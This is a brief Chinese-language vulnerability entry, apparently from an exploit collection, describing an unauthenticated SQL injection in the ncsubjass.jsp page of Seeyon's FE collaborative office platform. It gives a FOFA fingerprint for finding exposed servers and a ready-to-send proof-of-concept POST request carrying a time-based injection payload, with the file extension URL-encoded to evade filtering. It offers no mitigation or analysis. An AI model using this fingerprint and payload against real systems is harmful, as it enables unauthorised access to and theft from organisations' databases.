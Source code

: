 ## 致远互联FE协作办公平台ncsubjass存在SQL注入

致远互联FE协作办公平台ncsubjass.jsp存在SQL注入漏洞,未经身份验证的攻击者可以通过此漏洞获取数据库敏感信息。

## fofa

```
body="li_plugins_download"
```

## poc

```
POST /fenc/ncsubjass.j%73p HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: application/x-www-form-urlencoded
 
subjcode=';WAITFOR DELAY '0:0:5'--
```

